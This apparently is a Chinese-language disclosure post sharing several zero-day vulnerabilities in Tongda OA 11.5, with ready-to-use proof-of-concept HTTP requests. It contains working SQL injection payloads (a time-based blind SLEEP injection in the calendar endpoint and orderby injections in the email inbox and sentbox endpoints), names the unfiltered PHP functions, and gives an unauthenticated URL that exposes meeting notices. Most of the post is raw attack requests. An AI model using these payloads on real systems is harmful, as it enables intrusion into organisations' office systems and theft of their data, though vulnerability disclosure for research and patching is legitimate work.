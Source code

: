 # 通达OA 多枚 0day漏洞分享 附POC

### 影响范围:

我测试的是通达OA11.5版本，也就是2020年04月17日发布的，其他版未测，但我想也会有吧。

### 0x001 SQL注入 POC:


```bash
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/portal/home/
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Connection: keep-alive
Host: 192.168.43.169
Pragma: no-cache
X-Requested-With: XMLHttpRequest
Content-Length: 154
X-WVS-ID: Acunetix-Autologin/65535
Cache-Control: no-cache
Accept: */*
Origin: http://192.168.43.169
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

starttime=AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])---&endtime=1598918400&view=month&condition=1
```

漏洞文件：webroot\general\appbuilder\modules\calendar\models\Calendar.php。

get_callist_data函数接收传入的begin_date变量未经过滤直接拼接在查询语句中造成注入。

![](media/202008/15980949282002.jpg)


**利用条件：**

一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。

### 0x002 SQL注入 POC: 

漏洞参数：orderby


```bash
GET /general/email/sentbox/get_index_data.php?asc=0&boxid=&boxname=sentbox&curnum=3&emailtype=ALLMAIL&keyword=sample%40email.tst&orderby=1&pagelimit=20&tag=&timestamp=1598069133&total= HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169/
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```

![](media/202008/15980949528045.jpg)


漏洞文件：webroot\inc\utility_email.php，get_sentbox_data函数接收传入参数未过滤，直接拼接在order by后面了造成注入。

![](media/202008/15980949667765.jpg)


利用条件：

一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。

### 0x003 SQL注入 POC: 

漏洞参数：orderby


```bash
GET /general/email/inbox/get_index_data.php?asc=0&boxid=&boxname=inbox&curnum=0&emailtype=ALLMAIL&keyword=&orderby=3--&pagelimit=10&tag=&timestamp=1598069103&total= HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```

![](media/202008/15980949895173.jpg)


漏洞文件：webroot\inc\utility_email.php，get_email_data函数传入参数未过滤，直接拼接在order by后面了造成注入。

![](media/202008/15980949978311.jpg)


利用条件：

一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。

### 0x004 SQL注入 POC: 

漏洞参数：id

![](media/202008/15980950138695.jpg)


漏洞文件：webroot\general\appbuilder\modules\report\controllers\RepdetailController.php，actionEdit函数中存在 一个$_GET["id"];  未经过滤，拼接到SQL查询中，造成了SQL注入。

![](media/202008/15980950213698.jpg)


利用条件：

一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。

### 0x005 未授权访问: 

未授权访问各种会议通知信息，POC链接：


```
http://127.0.0.1/general/calendar/arrange/get_cal_list.php?starttime=1548058874&endtime=1597997506&view=agendaDay
```

![](media/202008/15980950447007.jpg)


via：tangshoupu@t00ls